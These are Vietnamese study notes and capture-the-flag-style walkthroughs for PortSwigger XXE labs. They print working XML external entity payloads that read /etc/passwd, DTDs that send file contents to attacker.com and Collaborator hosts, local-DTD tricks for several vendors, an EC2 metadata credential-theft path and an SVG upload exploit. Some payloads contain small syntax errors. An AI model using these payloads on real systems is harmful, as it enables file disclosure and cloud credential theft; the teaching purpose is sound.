

# Kiến thức cần biết:

## XML format, DTDs, external entities

- XML stand for "Extensible Markup Language", designed for storing and transporting data

- XML entities là 1 cách biểu diễn 1 item of data trong XML document, thay vì sử dụng chính data đó

    • Nhiều entities được tích hợp sẵn trong đặc tả của XML như "&lt" và "&gt" biểu diễn các kí tự "<" và ">"


- Document Type Definition (DTD):

    • Chứa các khai báo có thể xác định cấu trúc của một tài liệu XML

    • DTD được khai báo trong element "DOCTYPE" ở đầu của XML document.

    • DTD có thể hoàn toàn độc lập trong document của nó (được gọi là "internal DTD" hoặc có thể được load từ nơi khác (gọi là "external XML") hoặc có thể là cả hai.


- XML custom entities:

    • XML allow custom entities to be defined within the DTD. For example:

    ```<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>```
    
    • This definition nghĩa là bất kì cách sử dụng reference nào "&myentity;" trong XML document sẽ được thay bằng "my entity value"

- XML external entities:

    • Là 1 entity tùy chỉnh có định nghĩa nằm bên ngoài DTD nơi chúng được khai báo.

    • Khai báo 1 external entity sử dụng "SYSTEM" keyword và chỉ định 1 URL mà giá trị của entity được tải từ đó:

```<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" >] >```

    • URL có thể sử dụng "file://" protocol để tải các entity từ file:

```<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file://path/to/file" > ]>```
    

-1 định dạng:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<student>
    <name>John</name>
    <age>20</age>
    <email>john-viblo@gmail.com</email>
</student>
```


## Instance metadata

- Là các dữ liệu về instance với mục đích sử dụng cho việc cài đặt, cấu hình và quản lý các instance đang chạy (running), chúng thường được chia làm các trường như hostname, events, security groups,... Các data instance metadata luôn cần được bảo vệ do liên quan mật thiết tới thông tin nhạy cảm mà server sở hữu.


- ```Instance Metadata Services (IMDS)``` là 1 dịch vụ web mini chạy trong mỗi ```EC2 instance```(1 server máy ảo chạy trong  cloude của AWS)

- Nó không cần username/password mà chỉ cần gọi đến địa chỉ cố định "```http://169.254.169.254/```" từ bên trong instance

- Mục đích: 

    • Cho phép ứng dụng trên EC2 biết về thông tin cấu hình của instance (IP, AMI, region,...)

    • Truy xuất IAM role credentials (AccessKey, SecretKey, Token tạm thời) mà AWS gán cho instance.


- Địa chỉ đặc biệt "```169.254.169.254```":  Là link-local IP addess --> Chỉ truy cập được từ trong EC2 instance

    • Attacker từ ngoài không thể truy cập trực tiếp, nhưng nếu có lỗi SSRF hoặc XXE, họ có thể ép server trong EC2 truy vấn thay

- EC2 instance để chứa dữ liệu và chạy code (giống như 1 VPS).


## Blind XXE Injection và cách nhận biết

-Nhiều trường hợp web chứa quá trình phân tích XML syntax, nhưng không trả về kết quả trong giao diện ứng dụng.

-->Khi đó XXE vulnerability vẫn xảy ra nhưng ở dạng blind. Called: Blind XXE Injection.

-Ví dụ đoạn PHP:

```php
<?php

$result = null;

libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try{
        $dom = new DOMDocument();
        $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
        $creds = simplexml_import_dom($dom);

        $username = $creds->username;
        $password = $creds->password;

        if($username == 'admin' && $password == 'admin'){
                $result = sprintf("<result><msg>Welcome back admin! My secret is in /flag</msg></result>");
        }else{
                $result = sprintf("<result><msg>Invalid username or password</msg></result>");
        }	
}catch(Exception $e){
        $result = sprintf("<result><msg>%s</msg></result>", $e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```


-Đoạn code trên chứa chức năng chuyển user data thành định dạng XML và trang web thực hiện phân tích cú pháp XML.

-Khi login đúng, giao diện trả về path chứa secret (flag)

-Khi login sai, trả về "Invalid username or password" 

-Trong cả 2 trường hợp đều không trả về input (username hoặc password) từ user.


==>Thay vì khai báo external entity có giá trị là nội dung file (không thể hiển thị trong interface user).

Chúng ta sẽ gọi entity truy xuất tới URL tại domain DNS của server khác nhằm phát hiện request tương tác từ server nghi ngờ chứa vul

==>Sử dụng Burp Collaborator.

+Do trang web vẫn thực hiện quá trình parse syntax từ XML nên server victim sẽ gửi request phân giải tên miền tương tác với server DNS Burp Collaborator


## Parameter entity

- Là parameter chỉ dùng trong ```DTD``` (không dùng trựcc tiếp trong nội dung XML)

==>Nói cách khác, ```Parameter entities``` = ```biến trong DTD```.

- Ký hiệu bắt đầu bằng ```%``` thay vì ```&``` 


## External DTD to exfiltrate data

- Có 2 loại DTD thường được sử dụng:

    • Internal DTD được khai báo trong chính file XML tương ứng:

```<!DOCTYPE root-element [element-declarations]>```

    • External DTD: Khai báo nội dung trong 1 tệp tin ".dtd" sẽ được tham chiếu tới sau đó.

- Trong các cuộc tấn công ```XXE Injection```, attacker thường định nghĩa 1 external DTD, sau đó gọi tham chiếu tới chúng tại payload gửi tới server, sau đó thực hiện truy xuất và hiển thị nội dung sensitive data tới 1 target do attacker sở hữu.


- Ví dụ: attacker host 1 website public chứa 1 external DTD file có URL "```http://attacker.com/malicious.dtd```" có content: 

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">

<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?x=%file;'>">

%eval;

%exfiltrate;
```

  - Tệp dtd này hoạt động như sau:

    • Định nghĩa 1 parameter entity với tên "file" có content là nội dung file "/etc/passwd"

    • Định nghĩa 1 entity với name "eval", trong entity này chứa 1 định nghĩa parameter entity khác với tên "exfiltrate" sẽ gửi request tới website của attacker, truyền tham số x chứa nội dung tệp "etc/passwd" bằng cách gọi tham chiếu tới entity "%file"

    • Gọi tham chiếu entity "%eval" chứa định nghĩa entity "exfiltrate"

    • Gọi tham chiếu entity "%exfiltrate"


**!!!Lưu ý:**

    • "&#x25;" là định dạng HTML encode của kí tự "%" do kí tự "%" có thể khiến parser hiểu nhầm syntax

    • Các định nghĩa parameter cần được gọi tham chiếu mới có thể hoạt động.

+Ví dụ tệp DTD này được deploy tại URL public:

```http://attacker.com/malicious.dtd```

  - Cuối cùng, attacker định nghĩa 1 parameter entity, gửi payload tới server chứa lỗ hổng Blind XXE:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://attacker.com/malicious.dtd"> %xxe;]>
```

  - Server truy cập tới file DTD được chỉ định trong server attacker và thực hiện các bước được khai báo.

==>Server attacker sẽ nhận được nội dung tệp tin mong muốn.


- **NOTE**: Kỹ thuật này có thể không hoạt động với một số content trong các file (Như ký tự xuống dòng trong /etc/passwd). Một trong các cách khắc phục là sử dụng FTP protocol thay vì HTTP.


## File Local DTD path

- Việc cho phép hệ thống tìm nạp các file external DTD thực sự nguy hiểm do attacker có thể tự tạo external DTD file tùy ý. 

==> Hiện nay nhiều hệ thống đã thực hiện chặn truy cập external DTD. Tuy nhiên, attacker vẫn có thể lợi dụng việc kích hoạt các dòng thông báo lỗi hiển thị giá trị input từ user.

- Đối với mỗi hệ thống được sử dụng, các tệp local DTD thường được đặt ở các path mặc định khác nhau. Các payload sau tương ứng với mỗi hệ thống:

- Linux System:

```bash
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamsa 'Your DTD code'>
%local_dtd;
```

- Windows System:

```bash
<!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">
<!ENTITY % SuperClass '>Your DTD code<!ENTITY test "test"'>
%local_dtd;
```

- Cisco WebEx:

```bash
<!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd">
<!ENTITY % url.attribute.set '>Your DTD code<!ENTITY test "test"'>
%local_dtd;
```

- Citrix XenMobile Server:

```bash
<!ENTITY % local_dtd SYSTEM "jar:file:///opt/sas/sw/tomcat/shared/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd">
<!ENTITY % Body '>Your DTD code<!ENTITY test "test"'>
%local_dtd;
```

- Any Web Application on IBM WebSphere Application Server:

```bash
<!ENTITY % local_dtd SYSTEM "./../../properties/schemas/j2ee/XMLSchema.dtd">
<!ENTITY % xs-datatypes 'Your DTD code'>
<!ENTITY % simpleType "a">
<!ENTITY % restriction "b">
<!ENTITY % boolean "(c)">
<!ENTITY % URIref "CDATA">
<!ENTITY % XPathExpr "CDATA">
<!ENTITY % QName "NMTOKEN">
<!ENTITY % NCName "NMTOKEN">
<!ENTITY % nonNegativeInteger "NMTOKEN">
%local_dtd;
```


## Xinclude attack

- Một số trang web không trực tiếp nhận data từ user mà nhúng các user data vào document XML

==>Điều này khiến attacker không thể chỉnh sửa payload XML theo mong muốn.


- Ví dụ: Khi dữ liệu do user gửi được system kết hợp vào 1 SOAP backend request, sau đó được xử lý bởi SOAP backend.

-->Nên chúng ta không thể thực hiện XXE attack theo các hình thức được đề cập ở các lab đầu do không thể kiểm soát toàn bộ nội dung document XML

-->Không thể tự định nghĩa làm thay đổi "```DOCTYPE```" . XInclude là 1 giải pháp tốt để thay thế.

- ```XInclude``` là 1 phần đặc tả của XML cho phép tạo 1 document XML từ các sub-documents.

-Ví dụ sử dụng ```XInclude``` thực hiện bao hàm 1 file text "```license.txt```", phương pháp thực hiện như sau:

```xml
<?xml version="1.0"?>
<html xmlns="http://www.w3.org/1999/xhtml"
      xmlns:xi="http://www.w3.org/2001/XInclude">
   <head>...</head>
   <body>
      ...
      <p><xi:include href="license.txt" parse="text"/></p>
   </body>
</html>
 ```

-Payload sử dụng XInclude truy xuất nội dung của file "/etc/passwd":

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

- Lưu ý rằng ta cần thêm thuộc tính parse="text" và xmlns là 1 XML namespaces cung cấp URL là 1 địa chỉ chứa file ```XInclude XML```


## Hidden attack surface

- **XXE attack via file upload**: Trong chức năng upload có thể hệ thống thực hiện xử lý các tệp tin upload bởi user. Một số định dạng tệp sử dụng XML hoặc chứa các thành phần XML như "```.docx```" hoặc file ảnh "```.svg```" nếu cho phép upload có thể dẫn đến 1 số rủi ro.

- **XXE attack via modified content type**: Hầu hết các POST requests sử dụng content type được tạo bởi HTML form, như ```application/x-www-form-urlencoded``` . Một số website mong muốn nhận được ở định dạng này nhưng cũng chấp nhận các định dạng khác, trong đó có XML.


# Lab XML Injection

## Lab: Exploiting XXE using external entities to retrieve files

**END goals**: inject an XML external entity to retrieve the contents of the ```/etc/passwd``` file.

- Sử dụng feature "```Checkstock```", quan sát request:


- Web sử dụng XML gửi yêu cầu ```checkstock``` với các thẻ ```"<productId>"``` và ```"<storeId>"```. Hệ thống thực hiện phân tích dữ liệu XML và trả kết quả là số lượng sản phẩm còn.

- Thử tự định nghĩa 1 entity với giá trị bất kì để thử:


==>Giờ định nghĩa 1 external entity "&xxe;" với giá trị là nội dung file "/etc/passwd" qua wrapper "file://" , payload như sau:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId
</stockCheck>
```

==>Solve.


## Lab: Exploiting XXE to perform SSRF attacks

**END goals**: exploit the XXE vul to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.

- Trang web này sử dụng **EC2 instance** (Đọc thêm trong Kiến thức cần biết)

- Chứa chức năng checkstock phân tích syntax XML và trả về kết quả:


- Tự define 1 entity ```"&xxe;"``` với giá trị "prochicken", xem response:


==> Node productId được sử dụng trong response của application.

- Định nghĩa 1 external entity đọc file ```/etc/passwd```:


-Việc đọc content file ```/etc/passwd``` thành công cho thấy chúng ta có thể kết hợp SSRF nhằm khai thác data từ instance metadata từ default URL: ```http://169.254.169.254/```


- Liệt kê list file trong folder latest:


- Liệt kê list file trong ```/meta-data```:


- Đến file ```/iam```:


- Đến file ```/security-credentials```:


- Đến file ```/admin```, admin là tên role , trong file này chứa thông tin xác thực bảo mật tạm thời được liên kết với vai trò IAM này. Đọc file:


## Lab: Blind XXE with out-of-band interaction

**END goals**: Thực hiện 1 kịch bản DNS lookup tới client ```Burp Collaborator```.

- Định nghĩa 1 Entity với content bất kì, nhận thấy interface không trả về giá trị: 


- Dự đoán trang web đang thực hiện parse ```XML syntax```, kiểm tra bằng việc cho 1 cú pháp k đúng tiêu chuẩn:


- Thực hiện kịch bản DNS lookup tới ```Burp Collaborator```:


- Tuy trang web trả về "Invalid product ID" nhưng trước đó đã thực hiện quá trình phân tích XML syntax

==>```Burp Collaborator``` nhận được request DNS lookup gửi từ server victim:


## Lab: Blind XXE with out-of-band interaction via XML parameter entities

**END goals**: Chứa 1 cơ chế ngăn XXE attack, bypass this filter từ đó thực hiện DNS lookup và HTTP request tới Burp Collaborator.

- Hệ thống chứa cơ chế chặn XXE attack. Khi chèn "&" vào phần content của XML, đã bị chặn:


==>Ta không thể định nghĩa các entity thông thường với ký tự ```"&"``` như ```"&xxe;"```. 

Tuy nhiên kí tự "```%```" được phép sử dụng, website chỉ trả về "```Invalid productID```" chứ không phải như với "```&```"


==>Nghĩ đến ```parameter entity``` và gọi tham chiếu tới Burp Collaborator:


==>SOLVED


## Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD

**END goals**: exfiltrate the contents of the /etc/hostname file

- Sử dụng chức năng "check stock", xem Repeater:


- Ký tự "&" không được phép sử dụng nên không thể định nghĩa các entities thông thường:


-Có thể sử dụng parameter entity thay thế, payload kiểm tra DNS lookup với Burp Collaborator, thấy hoạt động.

-Dự đoán trang web chứa lỗ hổng Blind XXE Injection tại chức năng "check stock".

-Ta sẽ xây dựng 1 file ".dtd" thực hiện các bước truy xuất nội dung file "etc/hostname" hiển thị tại exploit server được cung cấp.

-Định nghĩa 1 parameter entity với tên "file" có giá trị là nội dung tệp "/etc/hostname"

```<!ENTITY % file SYSTEM "file:///etc/hostname">```

-Định nghĩa 1 entity với tên "exploit" chứa 1 định nghĩa khác parameter entity với tên "retrieve" truy cập tới Burp Collaborator và gửi tham số "x" với tham chiếu "%file":

```<!ENTITY % exploit "<!ENTITY &#25; retrieve SYSTEM 'http://wgg6uys4uisg28lb8jwplozo7fd61wpl.oastify.com/?x=%file;'>">```

-Gọi các tham chiếu %exploit, %retrieve; cuối cùng ta có nội dung file ".dtd" đầy đủ:

```bash
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % exploit "<!ENTITY &#x25; retrieve SYSTEM 'http://wgg6uys4uisg28lb8jwplozo7fd61wpl.oastify.com/?x=%file;'>">
%exploit;
%retrieve;
```

-Nội dung file ".dtd" được lưu tại "exploit.dtd"


-Hiện giờ ta chỉ cần khiến server victim gọi tới file "exploit.dtd" này:

```xml
<!DOCTYPE prochicken [
<!ENTITY % xxe SYSTEM "https://exploit-0ac100c003af5bcb809b434d01630013.exploit-server.net/exploit.dtd">
%xxe;
]>
```


- Sau khi gửi request, vào Collaborator để kiểm tra log:


## Lab: Exploiting blind XXE to retrieve data via error messages

**END goals**: Chức năng "Check stock" của trang web thực hiện quá trình phân tích cú pháp dữ liệu XML nhưng không hiển thị bất kỳ kết quả nào ra giao diện. Tuy nhiên, khi quá trình phân tích gặp lỗi, các thông báo trả về chứa nội dung nhạy cảm. Để hoàn thành bài lab, chúng ta cần kích hoạt các thông báo lỗi nhằm đọc nội dung tệp tin /etc/passwd.

- Tương tự các lab trước, thử tạo 1 ```DOCTYPE XML``` viết ra ```HELLO```


-Khi không có protocol, sau quá trình phân tích cú pháp XML, hệ thống đã ghép truy cập tới file "/home/peter/HELLO". Do không tìm thấy đường dẫn file "/home/peter/HELLO" nên trả về lỗi ```java.io.FileNotFoundException```

==>Ý tưởng ở đây là ta sẽ tìm cách thay thế chuỗi HELLO thành 1 nội dung trang web hiển thị cùng với error message, ta xây dựng 1 file external DTD sau:

```bash
<!ENTITY % file SYSTEM "file:///etc/passwd"
<!ENTITY % xxe "<!ENTITY &#x25; stealer SYSTEM 'abc/%file;'>">
%xxe;
%stealer;
```


-Viết 1 DOCTYPE để gửi tới trang web gọi file external này:

```xml
<!DOCTYPE prochicken[
<!ENTITY % inject SYSTEM "https://exploit-0a7d000a034f83fa81ec2edc01150099.exploit-server.net/exploit.dtd">
%inject;
]>
```


## Lab: Exploiting XXE to retrieve data by repurposing a local DTD

- ```Describe```: Biết rằng hệ thống sử dụng GNOME desktop và local DTD thường được đặt tại "/user/share/yelp/dtd/docbookx.dtd", trong đó chứa entity có tên "ISOamso".
-END goals: Cần tái sử dụng local DTD, kích hoạt lỗi phân tích cú pháp XML, từ đó đọc nội dung file /etc/passwd.

- Trong lab này, không bị filter các kí tự như "&" và "%", thử đọc file /etc/passwd như các lab đầu:


==>Thử DNS lookup xem:


==>Dính Blind XXE Injection

-Thông báo lỗi có thể lợi dụng để trả về nội dung file bất kỳ.

-Kiểm tra nhận thấy hệ thống không cho phép truy cập tới các external DTD, khả năng hệ thống chứa danh sách white-list các host hoặc chỉ cho phép sử dụng local DTD. Ta cần xác định vị trí của local DTD, cần thử từng trường hợp với các system tương ứng, nhưng bài lab đã cho bietes hệ thống sử dụng GNOME desktop với địa chỉ local DTD tại "/usr/share/yelp/dtd/docbookx.dtd"

-Ta xây dựng payload như sau:

```bash
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///noneexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

-Sau khi gửi payload, ta nhận được thông báo lỗi chứa nội dung file "```/etc/passwd```", hoàn thành lab


## Lab: Exploiting XInclude to retrieve files

**END goals**: inject an XInclude statement to retrieve the contents of the /etc/passwd file.

- Quan sát request khi sử dụng checkstock feature:


- Nhập giá trị "%" cho tham số productId:



==> Cho thấy trang web chứa quá trình phân tích cú pháp XML.

-Sử dụng kỹ thuật XInclude attack với payload như sau:

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```


-NOTE that: Link "http://www.w3.org/2001/XInclude" chỉ là URI định danh của chuẩn W3C cho XInclude 


## Lab: Exploiting XXE via image file upload

**END goals**: Trang web sử dụng Apache Batik library để xử lý ảnh được upload từ user. Ta cần chèn payload khai thác lỗ hổng XXE vào hình ảnh upload để sau khi trang web thực hiện xử lý hình ảnh, chúng ta có thể đọc được nội dung file "/etc/hostname"

- Chức năng comment cho phép user upload file với định dạng ".svg":


-Tạo 1 file ".svg" với nội dung: 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [
  <!ENTITY xxe SYSTEM "file:///etc/hostname">
]>
<svg xmlns="http://www.w3.org/2000/svg" width="200" height="200">
  <text x="10" y="20">&xxe;</text>
</svg>
```

- Truy cập ảnh vừa tạo và solve this lab.